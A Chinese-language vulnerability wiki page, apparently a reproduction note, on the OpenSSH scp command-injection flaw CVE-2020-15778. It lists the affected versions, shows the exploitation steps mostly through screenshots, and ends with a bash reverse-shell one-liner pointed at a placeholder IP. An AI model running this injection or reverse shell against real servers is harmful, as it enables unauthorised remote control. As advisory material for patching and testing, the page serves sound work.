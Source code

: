 # OpenSSH 命令注入漏洞 CVE-2020-15778 

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

<a-checkbox checked>OpenSSH <= 8.3p1</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="可用于目标不允许远程登录但SCP开启的情况下远程命令执行" description="" showIcon>
</a-alert>

<br/>

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311162457049.png)

执行命令 ping dnslog



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-6987082.png)



反弹shell 更换命令即可

```plain
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```